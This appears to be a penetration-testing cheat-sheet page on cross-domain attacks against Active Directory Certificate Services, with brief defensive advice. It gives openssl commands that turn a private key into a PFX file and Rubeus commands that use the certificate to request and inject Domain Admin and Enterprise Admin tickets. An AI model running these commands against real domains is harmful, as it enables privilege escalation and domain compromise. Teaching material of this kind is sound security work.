 # 🟢 AD CS

#### Cross Domain Attacks in Active Directory Certificate Services (AD CS)

Cross-domain attacks in AD CS exploit vulnerabilities in the configuration or implementation of Active Directory Certificate Services. AD CS is used to manage certificates for network security, including the authentication of users, computers, and services.&#x20;



{% @mailchimp/mailchimpSubscribe %}

The attacks aim to escalate privileges across domain boundaries, potentially allowing an attacker to gain unauthorized access to resources or perform actions with elevated privileges.

**Key Points:**

* **PKI Misconfiguration:** Attackers can exploit poorly configured Public Key Infrastructures (PKIs), leading to unauthorized certificate issuance.
* **Certificate Template Vulnerabilities:** Abuse of misconfigured certificate templates can allow attackers to issue certificates for themselves with elevated privileges.
* **Escalation of Privilege:** Attackers may use these vulnerabilities to escalate from a low-privileged user to higher-level administrative privileges across domains.
* **Defense Strategies:** Regularly audit AD CS configurations, limit the rights to manage CA and certificate templates, and implement monitoring for unusual certificate issuance activities.

#### Change the RSA into a PFX

> Paste the Private key in a file named : _cert.pem_

```
# linux
# openssl and provide a password
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

```
# windows
# openssl and provide a password
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem - keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\DA.pfx
```

#### 4. Request a TGT with the pfx

```
# Rubeus
# Request DA TGT and inject it
Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /password:password /ptt

# Request EA TGT and inject it
Rubeus.exe asktgt /user:techcorp.local\Administrator /dc:techcorp-dc.techcorp.local /certificate:C:\AD\Tools\EA.pfx /password:SecretPass@123 /nowrap /ptt
```

\


{% embed url="https://www.youtube.com/watch?v=ejmAIgxFRgM" %}
